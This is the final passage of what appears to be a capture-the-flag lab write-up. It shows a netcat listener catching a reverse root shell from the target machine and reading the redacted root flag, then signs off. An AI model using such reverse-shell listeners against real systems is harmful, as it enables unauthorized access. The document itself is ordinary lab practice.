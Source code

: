 ```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.234] 16349
# cd /root
# cat root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you at the next post :smile:
